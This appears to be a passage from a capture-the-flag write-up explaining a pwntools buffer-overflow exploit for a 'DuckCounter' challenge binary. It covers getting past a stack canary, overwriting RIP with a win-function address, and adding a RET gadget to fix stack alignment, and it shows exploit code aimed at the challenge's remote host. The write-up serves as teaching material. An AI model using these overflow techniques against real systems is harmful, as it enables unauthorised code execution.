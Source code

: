 ```python
PADDING = 1
WIN_FUNC = 0x401180

payload = BASE + NULLBYTE + REMAINING_CANARY + p64(PADDING) + p64(WIN_FUNC)

r.sendline(payload)
r.interactive()
```

I'm using pwntools here to interact with the binary/remote connection and begin by setting the DuckCounter to 29 by looping through the program's menu that many times. On the 30th time of entering the `submit_code()` function I send a standard buffer overflow payload that fills the buffer, sends the necessary canary nullbyte, fills the remaining portion of the canary, writes padding before the return address we're trying to overwrite, and finally overwrites the value of the RIP pointer to the constant address of the win function. Let's run it!

```
$ python3 duckexploit.py
[+] Starting local process './chall': pid 102
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

End of File?? What?? But I thought we passed the canary check?

Stepping through GDB we see that, in fact, we have. We successfully bypassed the canary check, overwrote RIP, and stepped into the function that should be spawning us a shell. So what's the problem?

## Diving into x86 and Stack Alignment
The cause of our troubles in this case is the x86 MOVAPS instruction. It's a common x86 instruction used by LIBC that will fail when operating on misaligned data. Unfortunately, by bypassing any `call` instructions and overwriting RIP to jump directly to the win function, the return address of our function is never pushed onto the stack. This means there is one less machine word on the stack and so it's unfortunately not 16 byte aligned :((

Well then, how do we fix it? Simple! Let's add a RET address in our payload that would normally be present if we had stepped into `win()` through a natural `call` instruction. It's possible to find a valid RET to use by running ROPgadget on the binary, but I simply looked through Ghidra's decompiled x86 assembly and found the address `0x0040115e`, which is exactly what we were looking for.

## Final Payload
```python
from pwn import *

r = remote('pwn.chall.pwnoh.io', 13386) #remote address
#r = process('./chall') #testing on local

for i in range(0, 29):
    r.recvuntil(b"fired")
    r.sendline(b"1")
    r.recvuntil(b"length.")
    r.sendline(b'duckies!')

r.recvuntil(b"fired")
r.sendline(b"1")
r.recvuntil(b"length.")

BASE = b"A"*520
NULLBYTE = b"\x00"
REMAINING_CANARY = b"A"*7
PADDING = 1
RET = 0x0040115e
WIN_FUNC = 0x401180

```